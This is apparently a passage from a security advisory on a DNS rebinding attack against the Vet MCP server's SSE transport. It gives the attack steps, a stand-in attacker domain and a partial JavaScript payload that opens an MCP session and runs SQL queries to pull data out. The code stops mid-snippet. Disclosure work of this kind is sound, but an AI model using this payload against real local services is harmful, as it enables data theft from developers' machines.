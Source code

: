 The attack requires the following conditions:
- A Vet scan is executed and reports are to a database
- The Vet MCP server is running with SSE transport enabled
- The attacker lures the victim to an attacker-controlled website

### Attack Vector

The attacker leverages DNS rebinding to:
1. Establish a connection to `http://127.0.0.1:9988/sse`
2. Obtain a valid MCP session ID
3. Initialize an MCP session
4. Invoke the `vet_query_execute_sql_query` tool with arbitrary READ SQL queries
5. Receive responses through the SSE stream
6. Exfiltrate data to an attacker-controlled server

## Attack Scenario

### Victim Setup

A security researcher or developer:
1. Installs Vet for dependency vulnerability scanning
2. Runs a scan: `vet scan -D /path/to/project`
3. Starts the MCP server with SSE transport:
   ```bash
   ./vet server mcp --server-type sse --sql-query-tool --sql-query-tool-db-path ./vet_scan.db
   ```
4. The server binds to `127.0.0.1:9988` by default

### Attacker Exploitation

The attacker prepares the DNS rebinding infrastructure:
1. Sets up a DNS server with wildcard records for a domain (e.g., `rebinder.attacker.com`)
2. Configures the DNS server to initially return the attacker's IP, then rebind to `127.0.0.1`
3. Hosts a malicious website with JavaScript that:
   - Detects when DNS rebinding succeeds
   - Connects to the Vet SSE endpoint at `http://127.0.0.1:9988/sse`
   - Establishes an MCP session
   - Invokes SQL queries against the victim's database
   - Exfiltrates the results

### Exploitation Flow

```javascript
// Attacker's malicious payload (simplified)
const eventSource = new EventSource(`http://${window.location.hostname}:9988/sse`);

eventSource.onmessage = (event) => {
  if (event.data.includes('sessionId')) {
    const sessionId = extractSessionId(event.data);
    const endpoint = `http://${window.location.hostname}:9988/message?sessionId=${sessionId}`;

    // Initialize MCP session
    fetch(endpoint, {
      method: 'POST',
      body: JSON.stringify({ method: 'initialize' })
    });

    // Execute SQL query
    fetch(endpoint, {
      method: 'POST',
      body: JSON.stringify({
        jsonrpc: '2.0',
        method: 'tools/call',
        params: {
```